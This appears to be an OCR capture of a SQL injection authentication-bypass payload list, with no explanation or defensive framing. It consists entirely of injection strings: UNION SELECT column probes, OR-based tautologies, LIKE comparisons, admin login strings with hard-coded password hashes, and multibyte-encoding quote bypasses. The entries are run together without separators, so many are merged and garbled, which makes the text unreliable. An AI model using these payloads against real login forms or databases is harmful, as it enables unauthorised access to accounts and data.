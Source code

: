 2'UniON(SElecT(1),2)#'UniON(SElecT(1),2,3)#'UniON(SElecT(1),2,3,4)#'UniON(SElecT(1),2,3,4,5)#" UniON SElecT 1,2-- 2" UniON SElecT 1,2,3-- 2" UniON SElecT 1,2,3,4-- 2" UniON SElecT 1,2,3,4,5-- 2" UniON SElecT 1,2#" UniON SElecT 1,2,3#" UniON SElecT 1,2,3,4#" UniON SElecT 1,2,3,4,5#"UniON(SElecT(1),2)-- 2"UniON(SElecT(1),2,3)-- 2"UniON(SElecT(1),2,3,4)-- 2"UniON(SElecT(1),2,3,4,5)-- 2"UniON(SElecT(1),2)#"UniON(SElecT(1),2,3)#"UniON(SElecT(1),2,3,4)#"UniON(SElecT(1),2,3,4,5)#'||'2'||2-- 2'||'2'||''||2#'||2/*'||2||'"||"2"||2-- 2"||"2"||""||2#"||2/*"||2||"'||'2'='2'||'2'='2'||''||2=2-- 2'||2=2#'||2=2/*'||2=2||'"||"2"="2"||"2"="2"||""||2=2-- 2"||2=2#"||2=2/*"||2=2||"'||2=(2)LimIT(1)-- 2'||2=(2)LimIT(1)#'||2=(2)LimIT(1)/*"||2=(2)LimIT(1)-- 2"||2=(2)LimIT(1)#"||2=(2)LimIT(1)/*'||true-- 2'||true#'||true/*'||true||'"||true-- 2"||true#"||true/*"||true||"'||'2'LiKE'2'||'2'LiKE'2'-- 2'||'2'LiKE'2'#'||'2'LiKE'2'/*'||'2'LiKE'2'||''||(2)LiKE(2)-- 2'||(2)LiKE(2)#'||(2)LiKE(2)/*'||(2)LiKE(2)||'"||"2"LiKE"2"||"2"LiKE"2"-- 2"||"2"LiKE"2"#"||"2"LiKE"2"/*"||"2"LiKE"2"||""||(2)LiKE(2)-- 2"||(2)LiKE(2)#"||(2)LiKE(2)/*"||(2)LiKE(2)||"')oR('2')oR'2'-- 2')oR'2'#')oR'2'/*')oR'2'oR('')oR(2)-- 2')oR(2)#')oR(2)/*')oR(2)oR('')oR 2-- 2')oR 2#')oR 2/*')oR 2 oR('')oR/**/2-- 2')oR/**/2#')oR/**/2/*')oR/**/2/**/oR('")oR("2")oR"2"-- 2")oR"2"#")oR"2"/*")oR"2"oR("")oR(2)-- 2")oR(2)#")oR(2)/*")oR(2)oR("")oR 2-- 2")oR 2#")oR 2/*")oR 2 oR("")oR/**/2-- 2")oR/**/2#")oR/**/2/*")oR/**/2/**/oR("')oR'2'=('2')oR'2'='2'oR('')oR'2'='2'-- 2')oR'2'='2'#')oR'2'='2'/*')oR 2=2-- 2')oR 2=2#')oR 2=2/*')oR 2=2 oR('')oR/**/2=2-- 2')oR/**/2=2#')oR/**/2=2/*')oR/**/2=2/**/oR('')oR(2)=2-- 2')oR(2)=2#')oR(2)=2/*')oR(2)=(2)oR('')oR'2'='2' LimIT 1-- 2')oR'2'='2' LimIT 1#')oR'2'='2' LimIT 1/*')oR(2)=(2)LimIT(1)-- 2')oR(2)=(2)LimIT(1)#')oR(2)=(2)LimIT(1)/*")oR"2"=("2")oR"2"="2"oR("")oR"2"="2"-- 2")oR"2"="2"#")oR"2"="2"/*")oR 2=2-- 2")oR 2=2#")oR 2=2/*")oR 2=2 oR("")oR/**/2=2-- 2")oR/**/2=2#")oR/**/2=2/*")oR/**/2=2/**/oR("")oR(2)=2-- 2")oR(2)=2#")oR(2)=2/*")oR(2)=(2)oR("")oR"2"="2" LimIT 1-- 2")oR"2"="2" LimIT 1#")oR"2"="2" LimIT 1/*")oR(2)=(2)LimIT(1)-- 2")oR(2)=(2)LimIT(1)#")oR(2)=(2)LimIT(1)/*')oR true-- 2')oR true#')oR true/*')oR true oR('')oR(true)-- 2')oR(true)#')oR(true)/*')oR(true)oR('')oR/**/true-- 2')oR/**/true#')oR/**/true/*')oR/**/true/**/oR('")oR true-- 2")oR true#")oR true/*")oR true oR("")oR(true)-- 2")oR(true)#")oR(true)/*")oR(true)oR("")oR/**/true-- 2")oR/**/true#")oR/**/true/*")oR/**/true/**/oR("')oR'2'LiKE('2')oR'2'LiKE'2'-- 2')oR'2'LiKE'2'#')oR'2'LiKE'2'/*')oR'2'LiKE'2'oR('')oR(2)LiKE(2)-- 2')oR(2)LiKE(2)#')oR(2)LiKE(2)/*')oR(2)LiKE(2)oR('")oR"2"LiKE("2")oR"2"LiKE"2"-- 2")oR"2"LiKE"2"#")oR"2"LiKE"2"/*")oR"2"LiKE"2"oR("")oR(2)LiKE(2)-- 2")oR(2)LiKE(2)#")oR(2)LiKE(2)/*")oR(2)LiKE(2)oR("admin')-- 2admin')#admin')/*admin")-- 2admin")#') UniON SElecT 1,2-- 2') UniON SElecT 1,2,3-- 2') UniON SElecT 1,2,3,4-- 2') UniON SElecT 1,2,3,4,5-- 2') UniON SElecT 1,2#') UniON SElecT 1,2,3#') UniON SElecT 1,2,3,4#') UniON SElecT 1,2,3,4,5#')UniON(SElecT(1),2)-- 2')UniON(SElecT(1),2,3)-- 2')UniON(SElecT(1),2,3,4)-- 2')UniON(SElecT(1),2,3,4,5)-- 2')UniON(SElecT(1),2)#')UniON(SElecT(1),2,3)#')UniON(SElecT(1),2,3,4)#')UniON(SElecT(1),2,3,4,5)#") UniON SElecT 1,2-- 2") UniON SElecT 1,2,3-- 2") UniON SElecT 1,2,3,4-- 2") UniON SElecT 1,2,3,4,5-- 2") UniON SElecT 1,2#") UniON SElecT 1,2,3#") UniON SElecT 1,2,3,4#") UniON SElecT 1,2,3,4,5#")UniON(SElecT(1),2)-- 2")UniON(SElecT(1),2,3)-- 2")UniON(SElecT(1),2,3,4)-- 2")UniON(SElecT(1),2,3,4,5)-- 2")UniON(SElecT(1),2)#")UniON(SElecT(1),2,3)#")UniON(SElecT(1),2,3,4)#")UniON(SElecT(1),2,3,4,5)#')||('2')||2-- 2')||'2'||('')||2#')||2/*')||2||('")||("2")||2-- 2")||"2"||("")||2#")||2/*")||2||("')||'2'=('2')||'2'='2'||('')||2=2-- 2')||2=2#')||2=2/*')||2=2||('")||"2"=("2")||"2"="2"||("")||2=2-- 2")||2=2#")||2=2/*")||2=2||("')||2=(2)LimIT(1)-- 2')||2=(2)LimIT(1)#')||2=(2)LimIT(1)/*")||2=(2)LimIT(1)-- 2")||2=(2)LimIT(1)#")||2=(2)LimIT(1)/*')||true-- 2')||true#')||true/*')||true||('")||true-- 2")||true#")||true/*")||true||("')||'2'LiKE('2')||'2'LiKE'2'-- 2')||'2'LiKE'2'#')||'2'LiKE'2'/*')||'2'LiKE'2'||('')||(2)LiKE(2)-- 2')||(2)LiKE(2)#')||(2)LiKE(2)/*')||(2)LiKE(2)||('")||"2"LiKE("2")||"2"LiKE"2"-- 2")||"2"LiKE"2"#")||"2"LiKE"2"/*")||"2"LiKE"2"||("")||(2)LiKE(2)-- 2")||(2)LiKE(2)#")||(2)LiKE(2)/*")||(2)LiKE(2)||("' UnION SELeCT 1,2`' UnION SELeCT 1,2,3`' UnION SELeCT 1,2,3,4`' UnION SELeCT 1,2,3,4,5`" UnION SELeCT 1,2`" UnION SELeCT 1,2,3`" UnION SELeCT 1,2,3,4`" UnION SELeCT 1,2,3,4,5`' or 1=1 limit 1 -- -+'="or'Pass1234.Pass1234.' AND 1=0 UniON SeleCT 'admin', 'fe1ff105bf807478a217ad4e378dc658Pass1234.' AND 1=0 UniON SeleCT 'admin', 'fe1ff105bf807478a217ad4e378dc658'\#Pass1234.' AND 1=0 UniON ALL SeleCT 'admin', md5('Pass1234.Pass1234.' AND 1=0 UniON ALL SeleCT 'admin', md5('Pass1234.')#Pass1234.' AND 1=0 UniON SeleCT 'admin', '5b19a9e947ca0fee49995f2a8b359e1392adbb61Pass1234.' AND 1=0 UniON SeleCT 'admin', '5b19a9e947ca0fee49995f2a8b359e1392adbb61'#Pass1234.' and 1=0 union select 'admin',sha('Pass1234.Pass1234.' and 1=0 union select 'admin',sha('Pass1234.')#Pass1234." AND 1=0 UniON SeleCT "admin", "fe1ff105bf807478a217ad4e378dc658Pass1234." AND 1=0 UniON SeleCT "admin", "fe1ff105bf807478a217ad4e378dc658"#Pass1234." AND 1=0 UniON ALL SeleCT "admin", md5("Pass1234.Pass1234." AND 1=0 UniON ALL SeleCT "admin", md5("Pass1234.")#Pass1234." AND 1=0 UniON SeleCT "admin", "5b19a9e947ca0fee49995f2a8b359e1392adbb61Pass1234." AND 1=0 UniON SeleCT "admin", "5b19a9e947ca0fee49995f2a8b359e1392adbb61"#Pass1234." and 1=0 union select "admin",sha("Pass1234.Pass1234." and 1=0 union select "admin",sha("Pass1234.")#%A8%27 Or 1=1-- 2%8C%A8%27 Or 1=1-- 2%bf' Or 1=1 -- 2%A8%27 Or 1-- 2%8C%A8%27 Or 1-- 2%bf' Or 1-- 2%A8%27Or(1)-- 2%8C%A8%27Or(1)-- 2%bf'Or(1)-- 2%A8%27||1-- 2%8C%A8%27||1-- 2%bf'||1-- 2%A8%27) Or 1=1-- 2%8C%A8%27) Or 1=1-- 2%bf') Or 1=1 -- 2%A8%27) Or 1-- 2%8C%A8%27)